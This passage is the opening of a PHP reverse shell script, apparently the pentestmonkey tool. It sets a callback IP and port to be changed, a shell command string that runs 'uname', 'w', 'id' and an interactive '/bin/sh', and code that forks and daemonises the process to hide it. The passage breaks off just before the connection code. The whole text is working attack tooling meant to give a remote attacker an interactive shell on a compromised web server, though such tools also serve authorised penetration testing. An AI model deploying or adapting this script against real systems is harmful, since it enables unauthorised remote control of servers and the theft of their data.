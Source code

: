 ```
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//
```